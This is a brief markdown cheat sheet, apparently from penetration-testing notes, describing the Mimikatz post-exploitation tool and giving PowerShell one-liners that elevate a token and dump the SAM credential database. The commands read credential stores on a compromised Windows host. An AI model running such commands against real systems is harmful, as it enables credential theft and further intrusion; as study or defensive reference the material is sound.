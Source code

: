 # Data Exfiltration

## Mimikatz

* `Mimikatz` is a post-exploitation tool that dumps passwords from memory, as well as hashes, PINs and Kerberos tickets.

|Source: [*"What is Mimikatz? And how to defend against this password stealing tool" from CSO*][1].|
|:--:|

### One-liner execution

* If you have a non-interactive shell or a Powershell shell, you have to execute the commands via parameters:
  ```powershell
  .\mimikatz.exe "privilege::debug" "<command>" "exit"
  ```
* An example would be:  
  ```powershell
  .\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
  ```

[1]: https://www.csoonline.com/article/3353416/what-is-mimikatz-and-how-to-defend-against-this-password-stealing-tool.html
